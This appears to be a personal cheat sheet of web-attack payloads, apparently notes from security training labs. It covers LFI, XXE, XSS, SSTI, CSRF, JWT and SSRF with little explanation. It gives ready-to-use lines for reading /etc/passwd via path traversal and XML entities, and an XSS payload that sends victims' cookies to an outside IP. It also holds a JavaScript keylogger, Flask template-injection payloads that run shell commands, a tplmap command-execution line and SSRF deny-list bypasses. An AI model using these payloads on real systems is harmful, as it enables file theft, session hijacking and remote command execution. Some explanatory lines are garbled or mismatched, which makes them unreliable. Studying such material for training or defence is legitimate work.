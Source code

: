 ### LFI (local file inclusion)

If you see a parameter you can try LFI on it.
```
http://127.0.0.1/?file=page.php
```
We can not try view a file on the system.
```
http://127.0.0.1/?file=../../../../../../etc/passwd
```

### XXE (XML External Entity)

This abuses features of XML parser/Data.

Let's look at the structure.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE file SYSTEM "file.dtd">
<file>
    <to>moon</to>
    <from>cake</from>
    <heading>food</heading>
    <body>XXE attack</body>
</file> 
```
XML document starts with 
```
<?xml version="1.0" encoding="UTF-8"?> 
```
The next part is called the DTD (Document Type Definition)
This defines the elements and attributes.

- !DOCTYPE note -  Defines a root element of the document named note
- !ELEMENT note - Defines that the note element must contain the elements: "to, from, heading, body"
- !ELEMENT to - Defines the to element to be of type "#PCDATA"
- !ELEMENT from - Defines the from element to be of type "#PCDATA"
- !ELEMENT heading  - Defines the heading element to be of type "#PCDATA"
- !ELEMENT body - Defines the body element to be of type "#PCDATA"

We can abuse this to read a file on a system.
```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```
or change something
```
<!DOCTYPE replace [<!ENTITY food "cake"> ]>
 <foodInfo>
  <firstName>moon</firstName>
  <lastName>&food;</lastName>
 </foodInfo>
 ```
 
 ```
 <?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
<root><name>a</name><tel>a</tel><email>&xxe;</email><password>a</password></root>
```
 
 ### XSS (Cross-Site Scripting)
 
 Injection where an attacker can execute malicious scripts and execute on machine
 
 ```
 <script>alert(1)</script>
 <img src=1 onerror=alert(1)>
 ' onerror='alert(1)
 3'**alert());//
 javascript:alert(1)
 ```
 #### Stored-XSS
 
 See if we can add html tags
 
 <b>comment</b>
 
 See if we can get a popup
 ```
 <script>alert(XSS popup)</script>
 ```
 We can even get cookies or change element with javascript
 
 ```
 <script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>
 <script>alert(document.cookie)</script>
 ```
 We can also steal cookies from other users.
 
 ```
 <script>window.location='http://192.168.1.10/?cookie='+document.cookie</script>
 ```
 
 ####  Reflected XSS
 Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.
 
 ```
 <script>alert("Hello")</script>
 <script>alert(window.location.hostname)</script>
 ```
 
 #### Stored XSS
 As the name infers, the XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.
 
 #### DOM-Based XSS
DOM stands for Document Object Model and is a programming interface for HTML and XML documents. It represents the page so that programs can change the document structure, style and content. A web page is a document, and this document can be either displayed in the browser window or as the HTML source

 ```
 test" onmouseover="alert('test')
 test" onmouseover="document.body.style.backgroundColor='red'
 ```
#### Keylogger

```
 <script type="text/javascript">
 let l = ""; // Variable to store key-strokes in
 document.onkeypress = function (e) { // Event to listen for key presses
   l += e.key; // If user types, log it to the l variable
   console.log(l); // update this line to post to your own server
 }
</script> 
```

<img SRC="test" onmouseover=alert('Hello') />
<img SRC="test" onmouseover=confirm('Hello') />
<img SRC="test" onmouseover=alert('HHelloello') />
<img SRC="test" ONMOUSEOVER=alert('HHelloello') />

### SSTI (server side template injection)

flask for instance
```
check
{{2+2}}
LFI
{{ ''.__class__.__mro__[2].__subclasses__()[40]()(/etc/passwd).read()}}
RCE
{{config.__class__.__init__.__globals__['os'].popen(<command>).read()}}
```

```
{{ ''.__class__ }}
{{ ''.__class__.__mro__ }}
{{ ''.__class__.__mro__[1] }}
{{ ''.__class__.__mro__[1].__subclasses__() }}

find the index position of subprocess.Popen

{{ ''.__class__.__mro__[1].__subclasses__()[401] }}
{{ ''.__class__.__mro__[1].__subclasses__()[401]("whoami", shell=True, stdout=-1).communicate() }}
```

https://github.com/swisskyrepo/PayloadsAllTheThings
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection


https://github.com/epinna/tplmap
```
./tplmap.py -u http://10.10.10.10:5000/ -d 'noot' --os-cmd "cat/ etc/passwd"
```

### CSRF (Cross Site Request Forgery)

```
<img src="http://localhost:3000/transfer?to=alice&amount=100">
```
```
pip3 install xsrfprobe
xsrfprobe -u <url>/<endpoint>
```

### JWT (JSON Web Token)

```
"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c"
HEAD.PAYLOAD.SECRET
```
https://jwt.io/
https://www.base64url.com/
https://github.com/lmammino/jwt-cracker

### SSRF (Server Side Request Forgery)

Attackers can bypass a Deny List by using alternative localhost references such as 0, 0.0.0.0, 0000, 127.1, 127.*.*.*, 2130706433, 017700000001 or subdomains that have a DNS record which resolves to the IP Address 127.0.0.1 such as 127.0.0.1.nip.io.
https://www.w3schools.com/tags/ref_urlencode.ASP



